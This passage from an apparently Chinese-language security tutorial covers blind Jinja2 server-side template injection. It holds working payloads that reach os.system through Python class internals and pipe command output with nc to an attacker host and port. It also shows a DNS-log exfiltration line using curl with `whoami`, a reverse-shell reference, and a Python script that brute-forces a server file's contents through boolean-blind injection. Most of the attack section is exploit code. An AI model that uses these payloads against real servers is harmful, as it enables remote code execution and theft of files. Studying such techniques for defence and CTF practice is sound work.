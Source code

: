 ```jinja2
#存在的子模块可以通过.index()来进行查询，如果存在的话返回索引，直接调用即可：
{{''.__class__.__mro__[2].__subclasses__().index(file)}}
#40
```

### 无回显

这里可以看[SSTI/沙盒逃逸详细总结 - 安全客，安全资讯平台](https://www.anquanke.com/post/id/188172#h2-11)的无回显部分，为了方便查看，我就摘取下来了

*   利用nc 转发

    服务器开启 `nc -lvp 44444`

    playload `{{''.__class__.__mro__[2].__subclasses__()[72].__init__.__globals__['os'].system('ls | nc xx.xxx.xx.xx 44444')}}`

    如果嫌一次一次转发太复杂也可以考虑直接反弹交互型shell。（反弹shell的操作网上也一大堆，这里就不多赘述了，可以参考：https://github.com/0xR0/shellver）

*   dnslog转发

    curl `whoami`.xxxxxx

    参考[巧用DNSlog实现无回显注入](https://www.cnblogs.com/afanti/p/8047530.html)

-   建立本地文件再读取

    这个也很好理解，针对system无回显，直接执行`ls > a.txt`，再用open进行读取

-   curl上传文件

    这个方法没有实践过，某师傅博客上翻到的，记录一下或许今后就用到了。[无回显代码执行利用方法](http://admintony.com/无回显代码执行利用方法.html)

-   盲注

    `{% if ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/test').read()[0:1]=='p' %}~p0~{% endif %}`类似SQL布尔注入，通过是否回显~p0~来判断注入是否成功。网上现有脚本如下：

    ```
    import requests
    
    url = 'http://127.0.0.1:8080/'
    
    def check(payload):
        postdata = {
            'exploit':payload
            }
        r = requests.post(url, data=postdata).content
        return '~p0~' in r
    
    password  = ''
    s = r'0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"$'()*+,-./:;<=>?@[\]^`{|}~'"_%'
    
    for i in xrange(0,100):
        for c in s:
            payload = '{% if "".__class__.__mro__[2].__subclasses__()[40]("/tmp/test").read()['+str(i)+':'+str(i+1)+'] == "'+c+'" %}~p0~{% endif %}'
            if check(payload):
                password += c
                break
        print password
    ```

## 总结

注入其实感觉都是一个原理，利用服务器的环境语法，来构造恶意语句，实现注入。本文以jinja2介绍到此，后续可能会补上不同框架的常见漏洞(如果没有就是鸽了，同样欢迎你们补上这个缺口，笑)

